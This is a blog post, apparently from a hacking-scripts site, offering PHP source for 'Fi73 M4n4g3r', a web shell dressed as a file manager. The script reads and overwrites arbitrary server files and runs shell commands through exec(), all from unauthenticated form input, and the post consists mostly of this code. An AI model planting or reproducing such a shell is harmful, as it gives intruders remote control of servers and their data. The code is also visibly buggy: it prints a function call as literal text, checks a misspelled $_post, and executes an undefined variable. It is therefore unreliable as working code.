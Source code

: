 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script

## Fi73 M4n4g3r script source code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "&lt;&lt;&lt;_END";
		echo "&lt;PRE&gt;";
		echo "file_get_contents($file)";
		echo "&lt;/PRE&gt;";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "&lt;pre&gt;";
	foreach ($output as $line) echo "$line \n";
	}
}
echo &lt;&lt;&lt;_END
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;File manager&lt;/TITLE&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;CENTER&gt;&lt;H3&gt;Fi73 M4n4g3r&lt;/H3&gt;&lt;/CENTER&gt; 
$error &lt;BR /&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;input type = "text" name = "file" /&gt;
&lt;input type = "submit" value = "Get File"/&gt;
&lt;/form&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;textarea name = "modify" wrap = "off" cols = "15" rows = "20"&gt;
$file_content &lt;/textarea&gt;
&lt;input type = "hidden" name = "file" value = "$file" /&gt;
&lt;input type = "submit" value ="save changes" /&gt;
&lt;/form&gt;
&lt;form method ="post" action = "modifier.php"&gt;
&lt;input type = "text" name = "cmd" /&gt;
&lt;input type = "submit" value = "execute command"/&gt;
&lt;/form&gt;
&lt;/CENTER&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
_END;
?&gt;
</pre>

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/03/fi73-M4n4g3r.png